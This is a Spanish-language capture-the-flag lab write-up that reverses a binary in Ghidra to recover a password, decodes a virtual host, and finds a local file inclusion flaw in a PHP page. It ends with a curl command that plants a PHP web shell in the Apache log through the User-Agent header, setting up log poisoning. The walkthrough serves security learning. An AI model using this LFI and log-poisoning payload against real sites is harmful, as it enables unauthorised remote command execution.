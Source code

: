 Al revisar el directorio, vemos un archivo **secret**, un ejecutable.

## GHIDRA

Vamos a usarlo para realizar ingeniería inversa.

Una vez tengamos descargada la herramienta  :
1. Abre **Ghidra** y selecciona un **proyecto existente** o crea uno nuevo.
2. Ve a **File > Import File...** y elige el archivo binario que deseas analizar.
3. Haz clic en **OK** para finalizar la importación.
4. Una vez importado, haz **clic derecho** sobre el archivo en la ventana **Project Window** y selecciona:
	🔹 **CodeBrowser** → Para desensamblar, analizar y decompilar el código.  

Al dejarlo procesar el ejecutable, nos lleva a main y vemos una función **containsRequiredChars**, si hacemos doble click nos lleva a ella.
En ella vemos que hace una comparación con regex, si hacemos doble click con las constantes, nos muestra su contenido.
Contra -> @MiS3cRetd00m
Si metemos la contra, el ejecutable nos devuelve un texto en base64:
```bash
./secret
Introduzca la contraseña: @MiS3cRetd00m
Recibido...
Comprobando...
Contraseña correcta, mensaje secreto:
ZzAwZGowYi5yZXZlcnNlLmRsCg==
```

Nos devuelve un host virtual que meteremos en el /etc/hosts:

```bash
g00dj0b.reverse.dl
```

Al entrar y hacer control +U, vemos :

```bash
                <li><a href="[experiments.php?module=./modules/default.php](view-source:http://g00dj0b.reverse.dl/experiments.php?module=./modules/default.php)">Experimentos Interactivos</a></li>
```

Lo que me hace pensar que es vulnerable a un **LFI**.

Al poner /etc/hosts podemos verlo.

# EXPLOTACION

No nos sirven los wrappers.

Vamos a ver si podemos ver el **access.log** -> `/var/apache2/logs/access.log`

Podemos verlo, aunque me sale vacío.

Vamos a mandar una petición cambiando los headers  :

```bash
curl -s -X GET "http://g00dj0b.reverse.dl/prox" -H "User-Agent: <?php system(\$_GET['cmd']);?>"
```
